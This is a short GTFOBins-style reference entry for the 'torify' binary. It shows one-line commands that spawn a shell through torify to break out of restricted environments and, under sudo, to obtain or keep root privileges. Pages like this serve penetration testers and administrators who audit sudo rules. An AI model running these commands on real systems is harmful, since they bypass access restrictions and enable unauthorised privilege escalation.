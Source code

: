 # GTFOBin: torify

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
torify /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo torify /bin/sh
```